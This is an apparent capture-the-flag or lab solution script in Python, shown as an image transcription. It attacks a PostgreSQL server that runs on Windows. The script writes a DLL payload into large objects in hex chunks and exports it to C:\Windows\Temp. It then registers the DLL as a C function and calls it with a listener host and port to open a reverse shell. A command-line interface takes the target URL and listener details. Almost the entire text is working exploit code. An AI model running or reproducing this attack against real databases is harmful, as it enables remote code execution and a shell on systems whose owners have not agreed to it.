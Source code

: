 ```python
        # Import large object to clobber
        queries = [
            "DROP FUNCTION rev_shell(text,integer)",
            f"SELECT lo_unlink({self.loid})",
            f"SELECT lo_import($$C:\\Windows\\win.ini$$,{self.loid})",
        ]

        for query in queries:
            self.execute_query(query)

        # Read payload from disk
        payload = None
        with open(self.filename, "rb") as f:
            payload = f.read()

        # Upload payload as large object from disk
        j, chunk_size = 0, 2048
        for i in range(0, len(payload), chunk_size):
            chunk = payload[i : i + chunk_size].hex()

            query = ""
            if j:
                query = f"INSERT INTO PG_LARGEOBJECT (loid,pageno,data) VALUES ({self.loid},{j},decode($${chunk}$$,$$hex$$))"
            else:
                query = f"UPDATE PG_LARGEOBJECT SET data=decode($${chunk}$$,$$hex$$) WHERE loid={self.loid} AND pageno={j}"

            self.execute_query(query)
            j += 1

        # Write payload to disk
        # Load payload as user-defined function
        # Trigger reverse shell
        queries = [
            f"SELECT lo_export({self.loid},$$C:\\Windows\\Temp\\rev_shell.dll$$)",
            f"CREATE OR REPLACE FUNCTION rev_shell(text,integer) RETURNS void AS $$C:\\Windows\\Temp\\rev_shell.dll$$,$$rev_shell$$ LANGUAGE C STRICT",
            f"SELECT rev_shell($${self.lhost}$$,{self.lport})",
        ]

        for query in queries:
            self.execute_query(query)


def main():
    parser = ArgumentParser()
    parser.add_argument("-u", "--url", dest="url")
    parser.add_argument("-lh", "--lhost", dest="lhost")
    parser.add_argument("-lp", "--lport", dest="lport", type=int)
    parser.add_argument("-f", "--filename", dest="filename")
    parser.add_argument("-i", "--id", dest="id", type=int, default=randint(1000, 9999))
    args = parser.parse_args()
    s = Solution(args.url, args.lhost, args.lport, args.filename, args.id)
    s.solve()


if __name__ == "__main__":
    main()
```

